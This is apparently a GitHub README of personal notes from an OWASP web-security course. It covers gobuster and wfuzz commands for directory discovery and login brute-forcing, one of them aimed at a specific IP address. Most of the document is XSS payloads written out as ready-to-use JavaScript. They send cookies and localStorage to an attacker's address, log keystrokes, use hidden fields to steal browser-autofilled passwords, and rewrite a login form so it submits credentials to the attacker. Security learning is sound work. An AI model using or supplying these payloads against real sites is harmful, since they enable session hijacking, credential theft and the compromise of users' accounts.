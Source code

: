 # OWASP Course Notes Repository

This repository contains my personal notes from the recently released OWASP course, which consists of video lessons. I created this repository on GitHub to store the notes that will be useful to me in the future.

---

## CEWL - Wordlist Generation

To generate dictionaries, use the cewl tool.

---

## Gobuster - Directory and Subdomain Bruteforcing

Gobuster is a tool that helps with directory and subdomain bruteforcing.
Repository: https://github.com/OJ/gobuster
### Installation command:
```
go install github.com/OJ/gobuster/v3@latest
```
### Example usage:

```
gobuster dir -u http://188.72.108.59:10008/ -w /usr/share/dirb/wordlists/common.txt -t 5
gobuster dns -d <site.com> -w /usr/share/dirb/wordlists/common.txt #subdomains
```

--- 

## Wfuzz - File and Login Page Bruteforcing

Wfuzz is a tool for file and login page bruteforcing.

### Example usage:

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "<site.com>" #files discovery
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -hc 404 -d "username=admin&password=FUZZ" -hh <number of incorrect bytes> "<site.com>" #bruteforce login page
```

---

## XSS (Cross-Site Scripting)

Reflected XSS: Creating a malicious link that needs to be sent to someone.
Stored XSS: Embedding a trap directly into the website.

### Examples:
If you need to create an alert in an `<h1>` tag:

```
<img src='x' onerror='alert(1)'>
```

### Injection:

```
<script src="http://<ip of your box>/xss.js"></script>
```

### Cookie Stealing and Data Exfiltration

To obtain the cookie file:

```
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://<ip>/exfil?data=" + encodedCookie);
```

### Local Storage Data Exfiltration

To retrieve data from the local storage of a website:

```
let data = JSON.stringify(localStorage);
let encodedData = encodeURIComponent(data);
fetch("http://<ip>/exfil?data=" + encodedData);
```

### Keylogging

To implement keylogging on a website:

```
function logKey(event) {
    fetch("http://<ip>/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```

### Stealing Saved Passwords

To steal saved passwords, assuming that the Chrome browser automatically fills in the password in the input field created by us:

```
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";

body.append(u);
body.append(p);

setTimeout(function() {
    fetch("http://<ip>/k?u=" + u.value + "&p=" + p.value);
}, 5000);
```

### Phishing Users

To perform a phishing attack and redirect users to a malicious login page:
```
fetch("login").then(res => res.text().then(data => {
    document.getElementsByTagName("html")[0].innerHTML = data;
    document.getElementsByTagName("form")[0].action = "http://<ip>";
    document.getElementsByTagName("form")[0].method = "get";
}));
```

This code fetches the contents of the "login" page, replaces the current HTML with the fetched content, modifies the form's action attribute to point to your IP address, and changes the form's method to "get". This way, when users submit their login credentials, the data will be sent to your specified IP address.


---

## Contribution

Feel free to contribute to this repository by adding more notes or suggesting improvements.